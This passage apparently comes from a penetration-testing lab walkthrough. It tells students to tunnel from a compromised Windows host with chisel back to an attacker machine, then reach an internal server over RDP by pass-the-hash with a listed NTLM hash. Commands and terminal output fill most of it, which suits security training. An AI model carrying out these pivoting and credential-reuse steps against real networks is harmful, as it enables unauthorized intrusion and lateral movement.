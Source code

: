 Going back to the session in `Evil-WinRM`, students will connect to the `chisel` server in `client` mode:

Code: shell

```shell
.\chisel.exe client PWNIP:8080 R:socks
```

```
*Evil-WinRM* PS C:\Users\Frewdy\Documents> .\chisel.exe client 10.10.14.221:8080 R:socks

chisel.exe : 2024/07/11 07:19:55 client: Connecting to ws://10.10.14.221:8080
    + CategoryInfo          : NotSpecified: (2024/07/11 07:1....10.14.221:8080:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2024/07/11 07:19:55 client: Connected (Latency 8.8523ms)
```

Students will return to their workstations, open a new tab, and modify their `proxychains.conf` configurational file:

Code: shell

```shell
sudo sh -c 'sed -i s/socks4/socks5/g /etc/proxychains.conf'
sudo sh -c 'sed -i s/9050/1080/g /etc/proxychains.conf'
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-1qi0mc04vu]─[~]
└──╼ [★]$ sudo sh -c 'sed -i s/socks4/socks5/g /etc/proxychains.conf'

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-1qi0mc04vu]─[~]
└──╼ [★]$ sudo sh -c 'sed -i s/9050/1080/g /etc/proxychains.conf'
```

Students will proceed to connect to `SRV02` (`172.20.0.52`) via RDP using `xfreerdp`, providing the username `Leonvqz` and the hash `A35289033D176ABAAF6BEAA0AA681400`:

Code: shell

```shell
proxychains xfreerdp /v:172.20.0.52 /u:Leonvqz /pth:A35289033D176ABAAF6BEAA0AA681400 /dynamic-resolution /drive:.,student
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-1qi0mc04vu]─[~]
└──╼ [★]$ proxychains xfreerdp /v:172.20.0.52 /u:Leonvqz /pth:A35289033D176ABAAF6BEAA0AA681400 /dynamic-resolution /drive:.,student

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.20.0.52:3389  ...  OK
[07:05:49:444] [35059:35061] [INFO][com.freerdp.crypto] - creating directory /home/htb-ac-8414/.config/freerdp
[07:05:49:444] [35059:35061] [INFO][com.freerdp.crypto] - creating directory [/home/htb-ac-8414/.config/freerdp/certs]
[07:05:49:444] [35059:35061] [INFO][com.freerdp.crypto] - created directory [/home/htb-ac-8414/.config/freerdp/server]
[07:05:49:523] [35059:35061] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[07:05:49:523] [35059:35061] [WARN][com.freerdp.crypto] - CN = SRV02.inlanefreight.local
[07:05:49:525] [35059:35061] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[07:05:49:525] [35059:35061] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[07:05:49:525] [35059:35061] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
```